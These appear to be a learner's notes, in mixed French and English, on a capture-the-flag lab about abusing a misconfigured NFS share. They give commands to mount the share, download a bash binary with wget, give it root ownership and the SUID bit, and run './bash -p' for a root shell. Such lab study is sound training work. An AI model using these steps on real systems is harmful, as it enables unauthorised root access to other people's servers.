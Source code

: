 NFS : Network File System

share file and directories by internet
Windows ou Unix OS

Les permissions n'ont pas d'importance ?

it use Mounting and file handle 



Now, use /usr/sbin/showmount -e [IP] to list the NFS shares, what is the name of the visible share?
(IP de la cible)




Mounting NFS shares

Your client’s system needs a directory where all the content shared by the host server in the export folder can be accessed. You can create
this folder anywhere on your system. Once you've created this mount point, you can use the "mount" command to connect the NFS share to the mount point on your machine like so:

sudo mount -t nfs IP:share /tmp/mount/ -nolock
(IP -> à remplacer par l'IP de la cible)


Let's break this down

Tag	Function
sudo	Run as root
mount	Execute the mount command
-t nfs	Type of device to mount, then specifying that it's NFS
IP:share	The IP Address of the NFS server, and the name of the share we wish to mount
-nolock	Specifies not to use NLM locking








fichier bash pour le root shell :

wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash.

Mapped Out Pathway:

If this is still hard to follow, here's a step by step of the actions we're taking, and how they all tie together to allow us to gain a root shell:


    NFS Access ->

        Gain Low Privilege Shell ->

            Upload Bash Executable to the NFS share ->

                Set SUID Permissions Through NFS Due To Misconfigured Root Squash ->

                    Login through SSH ->

                        Execute SUID Bit Bash Executable ->

                            ROOT ACCESS

Lets do this! Get root access

1 : On télécharge le fichier bash et on le déplace à l'endroit du partage 
2 : on set les permissions de root : sudo chown root bash
3 : On set les permissions de SUID : sudo chmod +s bash		et ->  sudo chmod +x bash
4 : on log avec le ssh qu'on à trouvé avant et on execute le fichier avec ./bash -p
le -p permet de ne pas perdre les permissions de temps en temps












First, change directory to the mount point on your machine, where the NFS share should still be mounted, and then into the user's home directory.

No answer needed
Download the bash executable to your Downloads directory. Then use "cp ~/Downloads/bash ." to copy the bash executable to the NFS share. The copied bash shell must be owned by a root user, you can set this using "sudo chown root bash"

No answer needed
Now, we're going to add the SUID bit permission to the bash executable we just copied to the share using "sudo chmod +[permission] bash". What letter do we use to set the SUID bit set using chmod?

S
Let's do a sanity check, let's check the permissions of the "bash" executable using "ls -la bash". What does the permission set look like? Make sure that it ends with -sr-x.
-rwsr-sr-x
Now, SSH into the machine as the user. List the directory to make sure the bash executable is there. Now, the moment of truth. Lets run it with "./bash -p". The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.

No answer needed
Great! If all's gone well you should have a shell as root! What's the root flag?





